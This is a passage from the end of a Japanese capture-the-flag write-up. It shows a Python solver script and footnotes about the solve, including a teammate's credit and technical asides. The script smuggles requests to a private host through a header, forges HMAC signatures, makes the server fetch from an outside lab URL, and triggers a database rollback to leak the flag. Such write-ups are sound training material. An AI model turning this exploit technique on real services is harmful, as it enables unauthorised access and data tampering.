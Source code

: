 ```py
                       headers={
                           'Host': PRIVATE_HOST,
                           'Lang': 'integrityStatus'
                       })
    return json.loads(res.headers['lang'])['dbhash']


def generate_sign(s: str) -> str:
    return hmac.new(PRIVATE_KEY, s.encode(), hashlib.sha512).hexdigest()


def generate_key(s: str) -> str:
    return hashlib.sha512(s.encode('ascii')).hexdigest()


def add_prefix(s: str, prefix: str) -> str:
    return f'{prefix}{s}'


def execute_download(srcUrl: str) -> requests.Response:
    sign = generate_sign(f'src={srcUrl}')
    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'download?src={srcUrl}',
                            'Sign': sign
                        })


def execute_rollback(dbHash: str) -> requests.Response:
    FRAGMENT = '_'

    key = generate_key(dbHash)
    sign = generate_sign(f'dbhash={add_prefix(dbHash, FRAGMENT)}')

    return requests.get(urljoin(PUBLIC_BASE_URL, '/'),
                        headers={
                            'Host': PRIVATE_HOST,
                            'Lang': f'rollback?dbhash={add_prefix(dbHash, FRAGMENT)}',
                            'Key': key,
                            'Sign': sign
                        })


def exploit():
    execute_download(f'https://lab.8ay.ac/{get_db_hash()}')
    res = execute_rollback(get_db_hash())

    print(f'flag: {res.headers["lang"]}')


if __name__ == "__main__":
    exploit()
```


[^1]: こちらは、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏と解きました。
[^2]: ひとまず簡単なWriteup出しておいて、復習するタイミングで詳細な解説を付けるやり方は、割とありな気がしている。
[^3]: FYI: <https://qiita.com/no1zy_sec/items/dfccd91cf76bf73b7754>
[^4]: GETリクエストがあればflagを入手するには十分だったため、他のメソッドのリクエストが発行できるかは調査しなかった。
[^5]: フォワードされた後、`app.main.LanguageNomarize(request)`を用いて、正規化される場合がある。
[^6]: `%`は0文字以上の文字列を表すワイルドカード
[^7]: 実際には、チームメイトの[@y0d3n](https://twitter.com/y0d3n)氏による手動リークの方が速かったが、プライバシーの観点から、彼の顔写真の代わりにPythonによるSolverスクリプトを掲載した。